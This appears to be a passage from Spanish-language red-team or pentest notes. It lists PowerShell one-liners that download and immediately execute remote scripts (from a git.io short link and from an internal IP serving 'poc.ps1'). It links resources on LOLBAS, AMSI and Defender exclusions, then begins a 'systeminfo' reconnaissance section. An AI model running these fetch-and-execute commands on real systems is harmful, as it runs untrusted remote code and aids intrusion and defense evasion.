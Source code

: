 iex ((New-Object System.Net.WebClient).DownloadString('https://git.io/JJ8R4'))

Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.100.59:3000/poc.ps1')


Más información
+ https://lolbas-project.github.io/
+ https://github.com/LOLBAS-Project/LOLBAS
+ https://www.elladodelmal.com/2020/09/windows-amsi-antimalware-scan-interface.html
+ https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-network-connections-microsoft-defender-antivirus?view=o365-worldwide
+ https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/linux-exclusions?view=o365-worldwide
+ https://www.gb-advisors.com/es/mimikatz/#:~:text=Windows%20cuenta%20con%20la%20funcionalidad,la%20clave%20secreta%20para%20descifrarlas.

## Obteniendo datos del sistema

~~~cmd
REM REM = Comentario en CMD
REM Obtener información
systeminfo 
~~~